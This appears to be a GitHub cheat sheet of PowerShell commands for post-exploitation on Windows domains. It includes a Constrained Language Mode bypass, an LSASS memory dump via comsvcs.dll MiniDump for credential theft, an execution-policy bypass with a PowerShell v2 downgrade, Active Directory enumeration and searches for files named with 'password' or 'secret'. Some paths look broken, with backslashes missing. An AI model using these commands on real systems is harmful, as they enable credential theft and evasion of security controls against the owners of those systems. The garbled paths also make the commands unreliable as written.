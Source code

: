 # Powershell_stuff

#Check if Full or Constrained Language Mode is in place.   
$ExecutionContext.SessionState.LanguageMode

#Set Proxy Settings Manually in Powershell (enter in Creds)

	$Wcl=New-Object System.Net.WebClient   
	$Creds=Get-Credential   
	$Wcl.Proxy.Credentials=$Creds   
	Invoke-WebRequest http://www.google.co.uk   

If you get a 200 back you're all good.

# CLM Bypass   
	#Path to Powershell
	$CMDLine = "$PSHOMEpowershell.exe"

	#Getting existing env vars
	[String[]] $EnvVarsExceptTemp = Get-ChildItem Env:* -Exclude "TEMP","TMP"| % { "$($_.Name)=$($_.Value)" }

	#Custom TEMP and TMP
	$TEMPBypassPath = "Temp=C:windowstemp"
	$TMPBypassPath = "TMP=C:windowstemp"

	#Add the to the list of vars
	$EnvVarsExceptTemp += $TEMPBypassPath
	$EnvVarsExceptTemp += $TMPBypassPath

	#Define the start params
	$StartParamProperties = @{ EnvironmentVariables = $EnvVarsExceptTemp }
	$StartParams = New-CimInstance -ClassName Win32_ProcessStartup -ClientOnly -Property $StartParamProperties

	#Start a new powershell using the new params
	Invoke-CimMethod -ClassName Win32_Process -MethodName Create -Arguments @{
	CommandLine = $CMDLine
	ProcessStartupInformation = $StartParams
	}

	#lsass dump
	$processes = Get-Process
	$location = Get-Location


$dumpid = foreach ($process in $processes){if ($process.ProcessName -eq "lsass"){$process.id}}
		Write-Host "Found l s a s s process with ID $dumpid - starting dump with rundll32"
		Write-Host "Dumpfile goes to Get-Location\$env:COMPUTERNAME.log"
		rundll32 C:\Windows\System32\comsvcs.dll, MiniDump $dumpid $location\$env:COMPUTERNAME.log full | Out-Null
		Compress-Archive -Path $location\$env:COMPUTERNAME.log -DestinationPath $location\$env:COMPUTERNAME.zip -CompressionLevel NoCompression

#ENABLE TLS1.2 if you receive a message Regarding an ISSUE with TLS   
[Net.ServicePointManager]::SecurityProtocol = [Net.ServicePointManager]::SecurityProtocol -bor [Net.SecurityProtocolType]::Tls12

Execute Powershell with Exec bypass and stay in Version 2

powershell.exe -Version 2 -ExecutionPolicy bypass

#Powershell Specific Tooling

# PowerSharpPack
PowerSharpPack -SharpShares -Command "--shares"

#Domain Enumeration

#Group Membership  
([ADSISEARCHER]"samaccountname=$('ENTERUSERNAME')").Findone().Properties.memberof -replace '^CN=([^,]+).+$','$1' | sort-object


#Aliases

dir = Get-ChildItem


#Current Domain Password Policy
$domain = [adsi](“WinNT://DOMAIN.local”)
$domain.Properties.Keys | Foreach {
  @{$_ = [string]$domain.Properties.Item($_) }
}



#Search for any file with the extension (.doc, .xls, .pdf) export output to 'files.csv'

get-childitem .\ -rec -ErrorAction SilentlyContinue -include @(‘*.doc*’,’*.xls*’,’*.pdf’)|where{!$_.PSIsContainer}|select-object FullName,@{Name=’Owner’;Expression={(Get-Acl $_.FullName).Owner}},LastAccessTime,LastWriteTime,Length|export-csv -notypeinformation -path files.csv


#Or if you wanted to do several wildcard searches for sensitive files (replace the terms as necessary):

get-childitem .\ -rec -ErrorAction SilentlyContinue -include @(‘*password*’,’*sensitive*’,’*secret*’)|where{!$_.PSIsContainer}|select-object FullName,@{Name=’Owner’;Expression={(Get-Acl $_.FullName).Owner}},LastAccessTime,LastWriteTime,Length|export-csv -notypeinformation -path files.csv

